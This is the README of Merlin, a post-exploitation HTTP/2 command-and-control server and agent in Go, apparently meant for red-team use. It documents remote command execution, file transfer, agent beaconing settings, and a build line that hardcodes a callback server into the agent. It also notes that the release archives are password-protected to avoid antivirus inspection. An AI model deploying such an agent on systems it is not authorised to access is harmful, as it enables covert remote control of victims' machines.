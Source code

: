 [![GoReportCard](https://goreportcard.com/badge/github.com/ne0nd0g/merlin)](https://goreportcard.com/badge/github.com/ne0nd0g/merlin)
[![License: GPL v3](https://img.shields.io/badge/License-GPL%20v3-blue.svg)](https://www.gnu.org/licenses/gpl-3.0)
[![Release](https://img.shields.io/github/release/Ne0nd0g/merlin.svg)](https://github.com/Ne0nd0g/merlin/releases/latest)
[![Downloads](https://img.shields.io/github/downloads/Ne0nd0g/merlin/total.svg)](https://github.com/Ne0nd0g/merlin/releases)
[![Slack](https://img.shields.io/badge/Slack-Sign--Up-blue.svg)](https://communityinviter.com/apps/merlin-go/merlin)

# Merlin (BETA)
Merlin is a cross-platform post-exploitation HTTP/2 Command & Control 
server and agent written in golang.

An introductory blog post can be found here:
https://medium.com/@Ne0nd0g/introducing-merlin-645da3c635a


[![asciicast](https://asciinema.org/a/166722.png)](https://asciinema.org/a/166722&speed=2)

## Getting Started
The quickest and easiest way to start using Merlin is download the
pre-compiled binary files found in the
[Releases](https://github.com/Ne0nd0g/merlin/releases) section. The
files are compressed into 7z archives and are password protected to
prevent Anti-Virus inspection when downloading. The password is
`merlin`.

## Install GO
In order to run Merlin from source, or to compile Merlin yourself, the
Go programing language must be installed on the system. However, if you
 just want to run a pre-compiled version, you _do not_ need to install
 Go.

Download and install GO: `https://golang.org/doc/install`

## Download Merlin Server
> It is recommended to download the compiled binaries from the
[Releases](https://github.com/Ne0nd0g/merlin/releases) section

>Ensure your GOPATH environment variable is
[set](https://github.com/golang/go/wiki/SettingGOPATH)

Download Merlin with Go

`go get github.com/Ne0nd0g/merlin`

If you want to use git instead of Go, merlin must be in your GOPATH i.e.
`$GOPATH/src/github.com/Ne0nd0g/merlin`

`cd $GOPATH/src/github.com/Ne0nd0g;git clone https://github.com/Ne0nd0g/merlin/`

## Run Merlin Server
Merlin Server can be run as a script or compiled and run as a standalone
 binary file.

`go run cmd/merlinserver/main.go`

## Compile Merlin Server
Compile Merlin into an executable using Make
`make server-windows` or `make server-linux` or `make server-darwin`

### Merlin Server Usage
```
  -debug
        Enable debug output
  -i string
        The IP address of the interface to bind to (default "0.0.0.0")
  -p int
        Merlin Server Port (default 443)
  -v    Enable verbose output
  -x509cert string
        The x509 certificate for the HTTPS listener (default "C:\\Merlin\\data\\x509\\server.crt")
  -x509key string
        The x509 certificate key for the HTTPS listener (default "C:\\Merlin\\data\\x509\\server.key")
```

## Merlin Server Commands
Merlin is equipped with a tab completion system that can be used to see
what commands are available at any given time. Hit double tab to get a
list of all available commands.

 Name   | Description
 ---    | ---
 agent   | Interact with agents or list agents
 banner | Print the Merlin banner
 exit   | Exit and close the Merlin server
 help   | Print help screen
 interact | Interact with an agent. Alias for Empire users
 quit   | Exit and close the Merlin server
 sessions | List all agents session information. Alias for MSF users
 use    | Use a function of Merlin (i.e modules)
 version | Print the Merlin server version
 ?      | Print help screen
 `*`    | Anything else will be execute on the host operating system

## Agent Commands
These are the commands to control an agent from the server. Tab
completion can be used to select an Agent's identifier.

 Name   | Description
 ---    | ---
 cmd   | Execute a command on the agent", "cmd ping -c 3 8.8.8.8"
 back   | Return to the main menu
 download | Download a file from the agent
 exit   | Exit and close the Merlin server
 help   | Print help screen
 info | Display all information about the agent
 kill | Instruct the agent to die or quit
 main | Return to the main menu
 quit   | Exit and close the Merlin server
 set | Set the value for one of the agent's options (maxretry, padding, skew, sleep)
 show | Show information about a module or its options (show options or show info)
 upload | Upload a file to the agent
  ?      | Print help screen
  `*`    | Anything else will be execute on the host operating system

## Module Commands
These are the commands to configure and execute a module. Tab completion
 can be used to select options and agents.

 Name   | Description
 ---    | ---
 back   | Return to the main menu
 exit   | Exit and close the Merlin server
 help   | Print help screen
 main | Return to the main menu
 quit   | Exit and close the Merlin server
 run | Run or execute the module
 set | Set the value for one of the module's options
 show | Show information about a module or its options (show options or show info)
 ?      | Print help screen
 `*`    | Anything else will be execute on the host operating system

### TLS Certificates
By default, Merlin will load server.crt and server.key from the
`data/x509/` directory. You must generate your own certificate pair and
place them in this directory.

### Third Party Libraries
The 3rd party libraries used with Merlin are kept in the _vendor_
directory. This project will default to using the library files in that
folder.

## Running Merlin Agent
The agent portion of Merlin should be run as a compiled binary file on
a target host.

> It is recommended to download the compiled binaries from the
[Releases](https://github.com/Ne0nd0g/merlin/releases) section

>Ensure your GOPATH environment variable is set!

Compile Merlin Agent into an executable

`make agent-windows` or `make agent-linux` or `make agent-darwin`

Merlin Agent can also be compiled without Make, using just go. To
compile Merlin Agent with your hard coded Merlin Server's address, so it
 doesn't have to specified on the command line, include `-ldflags
 -X main.url=https://acme.com:443/`

>Example: `go build -o merlinagent.exe -ldflags
"-X main.url=https://acme.com:443/" cmd/merlinagent/main.go`

Run Merlin Agent as script: `go run cmd/merlinagent/main.go`

### USAGE

```
  -debug
        Enable debug output
  -sleep duration
        Time for agent to sleep (default 10s)
  -skew int
        Variable time skew for agent to sleep
  -url string
        Full URL for agent to connect to (default "https://127.0.0.1:443")
  -v    Enable verbose output
```
